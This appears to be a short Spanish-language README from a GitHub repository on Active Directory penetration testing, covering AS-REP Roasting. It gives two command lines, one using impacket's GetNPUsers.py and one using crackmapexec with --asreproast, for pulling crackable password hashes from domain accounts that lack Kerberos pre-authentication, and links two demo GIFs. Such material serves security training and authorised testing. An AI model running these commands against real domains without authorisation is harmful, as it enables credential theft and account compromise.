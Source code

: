 # Obteniendo ASEREPROastable users hash

```
python /usr/share/doc/python3-impacket/examples/GetNPUsers.py <nombre dominio completo>/ -no-pass -usersfile <txt de lista de usuarios>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/user_but_no_credentials/ASREPRoast/vid.gif?raw=true "hash ASREP con GetNPUsers")

```
poetry run crackmapexec ldap <direccion ip> -u <txt de lista de usuarios> -p '' --asreproast <output.txt>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/user_but_no_credentials/ASREPRoast/vid2.gif?raw=true "hash ASREP con Crackmapexec")
